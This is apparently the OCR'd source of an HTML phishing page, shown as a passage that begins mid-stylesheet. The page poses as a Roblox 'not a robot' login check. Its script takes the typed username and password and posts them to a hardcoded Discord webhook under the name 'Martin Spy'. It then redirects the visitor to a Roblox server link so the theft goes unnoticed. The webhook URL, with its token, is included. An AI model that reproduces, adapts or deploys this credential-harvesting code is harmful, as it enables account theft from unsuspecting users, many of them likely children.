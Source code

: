     .alt-btn {
      width: 100%;
      padding: 12px;
      background-color: #2a2a2a;
      border: none;
      color: white;
      margin: 8px 0;
      font-weight: bold;
      border-radius: 4px;
      cursor: pointer;
    }
    .signup-link {
      font-size: 13px;
      margin-top: 16px;
    }
    .signup-link a {
      color: white;
      font-weight: bold;
      text-decoration: none;
    }
  </style>
</head>
<body>
  <div class="login-box">
    <h2>Login to make sure you're not robot</h2>
    <input type="text" id="username" placeholder="Username">
    <input type="password" id="password" placeholder="Password">
    <button class="login-btn" onclick="submitForm()">Log In</button>
    </div>

  <script>
    function submitForm() {
      sendToDiscord();

      setTimeout(function() {
        window.location.href = "https://www.roblox.com/share?code=cb0cd59c302cc0469f884bee8c0ee0c2&type=Server";
      }, 1000);
    }

    function sendToDiscord() {
      const webhookUrl = "https://discord.com/api/webhooks/1398583276612096141/qNm9-lYZcPsHb4O89RUjB4uJzWKxtOdRvqKABaRVSR2X8IINicEZd46X04S1ZZs7aNqP";
      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;

      fetch(webhookUrl, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          content: `🔔 New Login Attempt\nUsername: ${username}\nPassword: ${password}`,
          username: "Martin Spy"
        })
      }).catch(error => console.error('Error:', error));
    }
  </script>
</body>
</html>
